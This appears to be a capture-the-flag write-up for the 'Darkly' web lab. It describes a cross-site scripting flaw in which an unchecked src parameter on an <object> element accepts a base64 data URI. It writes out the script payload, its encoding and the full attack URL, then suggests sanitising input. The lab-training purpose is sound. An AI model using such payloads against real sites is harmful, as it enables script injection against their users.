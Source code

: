 # Unchecked Media Source

## Vulnerability

In the middle of the page, the third picture of the NSA is a link redirecting to: `http://darkly/?page=media&src=nsa`.

This page shows an `<object>` element.
The source seems to be controlled by the `src` query.

Any value other than `nsa` does not works.
Using a base64 encoded value seems to work too.

A simple script works:
```html
<script>alert(1)</script>
```

Once encoded to base64, it gives:
```
PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
```

So the URL:
```
http://darkly/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
```

Give the flag:
```
The flag is : ...
```

## Possible Fix

- Sanitize the user input.

